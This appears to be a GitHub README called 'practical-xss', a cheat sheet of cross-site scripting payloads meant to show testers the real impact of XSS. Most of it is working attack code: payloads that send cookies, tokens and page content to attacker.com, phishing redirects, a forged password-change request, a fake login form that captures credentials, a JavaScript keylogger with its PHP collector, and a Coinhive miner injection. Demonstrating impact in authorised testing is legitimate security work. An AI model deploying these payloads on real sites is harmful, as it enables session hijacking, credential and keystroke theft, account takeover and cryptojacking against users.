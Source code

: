 # practical-xss

Prove the real risk of XSS vulnerabilities with the following scenarios

### Stealing cookies/token
```<script>new Image().src=`//attacker.com/?o=${document.cookie}`</script>```

```<svg/onload=fetch(`//attacker.com/?o=${document.cookie}&o2=${localStorage.getItem('token')}`)>``` ***//change the getItem***

```<img src=x onerror="document.location='https://attacker.com?o='+window.localStorage.getItem('token')">``` ***//change the getItem***

### Stealing page data
#### Specific id
```<script>new Image().src=`//attacker.com/?o=${document.getElementById('sensetive_information').innerHTML}`</script>```

```<script>new Image().src="//attacker.com/?o="+document.getElementById('sensetive_information').innerHTML;</script>```

#### Specific class
```<script>new Image().src=`//attacker.com/?o=${document.getElementsByClassName('sensetive_information')[0].innerText}`</script>```

```<script>new Image().src="//attacker.com/?o="+document.getElementsByClassName('sensetive_information')[0].innerText;</script>```

#### Entire page
```<script>new Image().src=`//attacker.com/?o=${encodeURI(document.body.innerHTML)}`</script>```

```<script>new Image().src="//attacker.com/?o="+encodeURI(document.body.innerHTML)</script>```

### Redirect users to malicious sites
```<script>alert`Please login again`;window.location.href="http://attacker.com";</script>```

```<script>if(confirm("Please login again!"))document.location='http://attacker.com/';</script>```

### Perform unauthorized activities
```
<script>
	var xhr = new XMLHttpRequest();
	xhr.open('POST','http://victim.com/changePassword',true);
	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');
	xhr.send('email=admin@victim.com&newPassword=Aa123456');
</script>
```

### Fake login form
```<h3>Please login to proceed</h3><form action=http://attacker.com/>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>```

### Key-logger

**xss.js**
```
var l = "";
document.onkeypress = function (e) {
    l += e.key;
    var req = new XMLHttpRequest();
    req.open("POST","http://attacker.com/keylog.php", true);
    req.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    req.send("data=" + l);
}
```

**keylog.php**
```
<?php
if(!empty($_POST['data'])){
	$logfile = fopen('data.txt','a+');
	fwrite($logfile, $_POST['data'] . "\n");
	fclose($logfile);
}
?>
```

Inject this:
<script src="//attacker.com/xss.js"></script>

### Crypto Mining
```<script src="https://coin-hive.com/lib/coinhive.min.js">var miner = new CoinHive.Anonymous('thisistest');miner.start();</script>```

It's important to show a POC of an extension that detects a crypto mining script, you can do this with Chrome extensions like [MinerBlock](https://chrome.google.com/webstore/detail/minerblock/emikbbbebcdfohonlaifafnoanocnebl?hl=en)


###### References
1. https://pentest-tools.com/blog/xss-attacks-practical-scenarios/
2. https://github.com/chentetran/xss-keylogger/blob/master/keylogscript.html
